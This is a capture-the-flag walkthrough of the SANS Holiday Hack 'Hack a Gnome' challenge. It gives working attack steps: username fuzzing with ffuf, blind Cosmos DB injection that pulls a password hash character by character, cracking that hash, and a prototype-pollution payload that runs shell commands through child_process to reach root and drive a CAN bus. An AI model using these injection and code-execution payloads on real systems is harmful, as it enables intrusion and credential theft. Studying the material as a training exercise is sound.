


# Act 3: Hack a Gnome

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star:<br/>

## Objective

!!! question "Request"
    Davis in the Data Center is fighting a gnome army—join the hack-a-gnome fun.

??? quote "Chris Davis"
    Hey, I could really use another set of eyes on this gnome takeover situation.<br/>
    Their systems have multiple layers of protection now - database authentication, web application vulnerabilities, and more!<br/>
    But every system has weaknesses if you know where to look.<br/>
    If these gnomes freeze the whole neighborhood, forget about hiking or kayaking—everything will be one giant ice rink. And trust me, miniature war gaming is a lot less fun when your paint freezes solid.<br/>
    Ready to help me turn one of these rebellious bots against its own kind?

## Solution

- Exploring the endpoints
https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?id=4a043d2b-d18b-4197-b04e-0151794b4e7&username=test<br/>

`{"available":true}`

Generating an error on same endpoint to generate more information.
```
{"error":"An error occurred while checking username: Message: {\"errors\":[{\"severity\":\"Error\",\"location\":{\"start\":42,\"end\":45},\"code\":\"SC1012\",\"message\":\"Syntax error, invalid string literal token '\\\"\\\\\\\"'.\"}]}\r\nActivityId: fc7769a8-1ccb-4a70-a04e-8c1d735c1cd8, Microsoft.Azure.Documents.Common/2.14.0"}
```
`Microsoft.Azure.Documents.Common/2.14.0` refers to a specific version of the **Azure Cosmos DB .NET SDK (SDK v2)**, which was released on April 17, 2021.

**Documentation:**
(https://learn.microsoft.com/en-us/rest/api/cosmos-db/documents)

According to a hint received, we should use a list of common first names to try to enumerate the available ones in the database.


#### Enumerate
`cat firstnames.txt | ffuf -w - -u "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username=FUZZ" -fs 18 -t 1 -p 2`

We found something


####  SQL injection in endpoint:
When username is found, and following statement is true; the endpoint returns: `{"available":false}`
else, it returns: `{"available":true}`


- Let's try to find the name of the parameter related to the password value held in the database by enumerating common parameter names using `fuff` as before
`
url = 'https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username=bruce"+AND+IS_DEFINED(c.digest)--&id=5c3a01d9-6fc2-4216-b1d9-1dff05932fc4'
`<br/>
`{"available":false}`
<br/>
**digest** seems to be the name of the parameter
```
curl 'https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username=bruce"+AND+IS_DEFINED(c.digest)+AND+LENGTH(c.digest)=32--&id=5cfc=2-4216-b1d9-1dff05932fc4'
{"available":false}
```
<br/>
digest seems to be md5 hash as it has **32 characters**
<br/>
Check letter by letter to get the digest<br/>
`url = 'https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username=bruce"+AND+SUBSTRING(c.digest,'+str(i)+',1)="'+elmt+'"--&id=5c3a01d9-6fc2-4216-b1d9-1dff05932fc4'`

**hash = d0a9ba00f80cbc56584ef245ffc56b9e**

Use an online tool to crack it: (https://crackstation.net/) for the win; password is **oatmeal12**



### Prototype pollution:
This URL is the one vulnerable to prototype pollution
(https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message={"action":"update","key":"settings","subkey":"name","value":"goul"})

We then need to call the `stats` endpoint to trigger the execution.


#### Payload generation:
(https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message={"action":"update","key":"__proto__","subkey":"outputFunctionName","value":"x;return global.process.mainModule.require('child_process').execSync('cat canbus_client.py').toString();//"})

Commands used and results obtained:
```
whoami:  root

ls: README.md canbus_client.py node_modules package-lock.json package.json server.js views
cat  canbus_client.py
```

```
#!/usr/bin/python3
import can
import time
import argparse
import sys
import datetime # To show timestamps for received messages

# Define CAN IDs (I think these are wrong with newest update, we need to check the actual device documentation)
COMMAND_MAP = {
    "up": 0x656,
    "down": 0x657,
    "left": 0x658,
    "right": 0x659,
    # Add other command IDs if needed
}
# Add 'listen' as a special command option
COMMAND_CHOICES = list(COMMAND_MAP.keys()) + ["listen"]

IFACE_NAME = "gcan0"

def send_command(bus, command_id):
    """Sends a CAN message with the given command ID."""
    message = can.Message(
        arbitration_id=command_id,
        data=[], # No specific data needed for these simple commands
        is_extended_id=False
    )
    try:
        bus.send(message)
        print(f"Sent command: ID=0x{command_id:X}")
    except can.CanError as e:
        print(f"Error sending message: {e}")

def listen_for_messages(bus):
    """Listens for CAN messages and prints them."""
    print(f"Listening for messages on {bus.channel_info}. Press Ctrl+C to stop.")
    try:
        # Iterate indefinitely over messages received on the bus
        for msg in bus:
            # Get current time for the timestamp
            timestamp = datetime.datetime.now().strftime('%Y-%m-%d %H:%M:%S.%f')[:-3] # Milliseconds precision
            print(f"{timestamp} | Received: {msg}")
            # You could add logic here to filter or react to specific messages
            # if msg.arbitration_id == 0x100:
            #    print("  (Noise message)")

    except KeyboardInterrupt:
        print("\nStopping listener...")
    except Exception as e:
        print(f"\nAn error occurred during listening: {e}")

def main():
    parser = argparse.ArgumentParser(description="Send CAN bus commands or listen for messages.")
    parser.add_argument(
        "command",
        choices=COMMAND_CHOICES,
        help=f"The command to send ({', '.join(COMMAND_MAP.keys())}) or 'listen' to monitor the bus."
    )
    args = parser.parse_args()

    try:
        # Initialize the CAN bus interface
        bus = can.interface.Bus(channel=IFACE_NAME, interface='socketcan', receive_own_messages=False) # Set receive_own_messages if needed
        print(f"Successfully connected to {IFACE_NAME}.")
    except OSError as e:
        print(f"Error connecting to CAN interface {IFACE_NAME}: {e}")
        print(f"Make sure the {IFACE_NAME} interface is up ('sudo ip link set up {IFACE_NAME}')")
        print("And that you have the necessary permissions.")
        sys.exit(1)
    except Exception as e:
        print(f"An unexpected error occurred during bus initialization: {e}")
        sys.exit(1)

    if args.command == "listen":
        listen_for_messages(bus)
    else:
        command_id = COMMAND_MAP.get(args.command)
        if command_id is None: # Should not happen due to choices constraint
            print(f"Invalid command for sending: {args.command}")
            bus.shutdown()
            sys.exit(1)
        send_command(bus, command_id)
        # Give a moment for the message to be potentially processed if listening elsewhere
        time.sleep(0.1)

    # Shutdown the bus connection cleanly
    bus.shutdown()
    print("CAN bus connection closed.")

if __name__ == "__main__":
    main()
```

The canbus_client.py script indeed has the obsolete commands. We need to find the correct ones and modify this file accordingly.


CAN Bus IDs have two main types: **Standard (11-bit)** with a hex range of ==**0x0 to 0x7FF** (0-2047 decimal),==
Try 0x0 to 0x300 first slot

Let's enumerate the ranges, send my own signals and check the user interface to observe the robots movements

Using the previous prototype pollution, I manage to create and execute rogue_script.py on the server to automate this enumeration
```

touch rogue_script.py
echo "import can" >> rogue_script.py
echo "import time" >> rogue_script.py

echo "hex_value = '0x0'" >> rogue_script.py
echo "for i in range(0,769):" >> rogue_script.py
echo "  message = can.Message(arbitration_id=hex_value, data=[], is_extended_id=False)" >> rogue_script.py
echo "  bus.send(message)" >> rogue_script.py
echo "  time.sleep(2)" >> rogue_script.py
echo "  decimal_value = int(hex_value,16)" >> rogue_script.py
echo "  decimal_value += 1" >> rogue_script.py
echo "  hex_value = hex(decimal_value)" >> rogue_script.py

```

Results of the correct IDs for the robot movements:
```
0x201: up    
0x202: down 
0x203: left 
0x204: right 
```

Using sed and the previous prototype pollution, I can update the canbus_client.py script with the correct values.

This allows me to use the following sequence to stop the manufacturing operations.

`4 * down + left + down + 3 * left + up + left + up + left + right + up + left + up + up + left
`